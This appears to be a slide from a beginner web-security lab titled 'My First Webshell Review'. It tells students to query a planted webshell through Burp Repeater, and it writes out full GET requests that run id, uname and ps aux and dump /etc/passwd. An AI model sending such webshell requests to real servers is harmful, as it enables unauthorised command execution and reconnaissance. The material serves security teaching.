

# My First Webshell Review
Use Repeater to extract the following info from the server:
Run id and whoami
Determine the operating system and kernel version with uname
Read the contents of /etc/passwd
List all running processes with ps aux
Note: Recall that you must use a + or %20 to send a space in a URL, e.g.: ls -sail becomes ls+-sail or ls%20-sail.

To dump /etc/passwd: GET /hackable/webshell.php?cmd=cat%20/etc/passwd

For user info: id: GET /hackable/webshell.php?cmd=id

For OS info: uname: GET /hackable/webshell.php?cmd=uname

For process info: ps aux: GET /hackable/webshell.php?cmd=ps%20aux